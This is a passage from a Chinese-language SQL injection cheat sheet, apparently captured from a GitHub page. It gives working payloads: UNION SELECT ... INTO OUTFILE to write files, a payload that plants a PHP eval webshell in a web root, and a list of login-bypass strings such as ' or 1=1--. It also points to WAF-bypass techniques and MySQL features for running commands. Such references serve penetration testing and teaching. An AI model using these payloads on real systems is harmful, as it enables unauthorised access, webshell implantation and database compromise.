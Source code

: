 ```text
UNION SELECT DATABASE() INTO OUTFILE 'C:\\phpstudy\\WWW\\test\\1';

UNION SELECT DATABASE() INTO OUTFILE 'C:/phpstudy/WWW/test/1';
```

**写入webshell**

**条件**

* 需要知道网站的绝对物理路径，这样导出后的webshell可访问
* 对需导出的目录有可写权限。

**payload**

```text
UNION SELECT  "<?php eval($_POST['chybeta'])?>" INTO OUTFILE 'C:/phpstudy/WWW/test/webshell.php';
```

### 万能密码后台登陆

* admin' --
* admin' \#
* admin'/\*
* or '=' or
* ' or 1=1--
* ' or 1=1\#
* ' or 1=1/\*
* '\) or '1'='1--
* '\) or \('1'='1--

### PDO堆查询

## 0x03 绕过技巧

请见：[WAF Bypass:SQL Injection](https://chybeta.gitbooks.io/waf-bypass/content/sql-injection/ji-ben-guo-waf-zi-shi-hui-zong.html)

### sqlmap-tamper编写

## 0X04 版本特性

* mysql5.0以后  information.schema库出现
* mysql5.1以后 udf 导入xx\lib\plugin\ 目录下
* mysql5.x以后 system执行命令

## 0x05 常见sql注入位置

* 常见GET、POST参数
* 登陆框
* http头

## 0xx06 工具
